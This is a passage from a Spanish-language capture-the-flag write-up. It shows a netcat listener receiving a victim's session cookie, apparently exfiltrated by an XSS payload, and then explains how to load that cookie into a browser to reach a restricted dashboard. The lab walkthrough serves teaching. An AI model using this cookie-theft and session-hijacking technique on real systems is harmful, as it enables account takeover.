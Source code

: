 Para leer la petición que nos va a ser mandada por el puerto 1234 utilizamos netcat.

```
nc -lnvtp 1234

listening on [any] 1234 ...
connect to [10.10.14.124] from (UNKNOWN) [10.129.189.64] 33942

GET /?session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zu26Vg.RFsVfRjFbg5CykH8zdKH9fGez7M HTTP/1.1
Host: 10.10.14.124:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:3000
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

Tras esperar unos segundos, nos llega la solicitud con una cookie de sesión `session`.

Ahora podemos incorporar esta cookie en nuestro navegador e intentar acceder a alguna ruta a la que previamente tuvieramos el acceso restringido, como por ejemplo el `dashboard` que habíamos encontrado antes.

Para ello abrimos el panel de desarrolladores con `f12`, nos dirigimos a la pestaña "Almacenamiento" en Firefox o "Aplicación" en Chrome, abrimos "Cookies" y añadimos la cookie de nombre `session`.
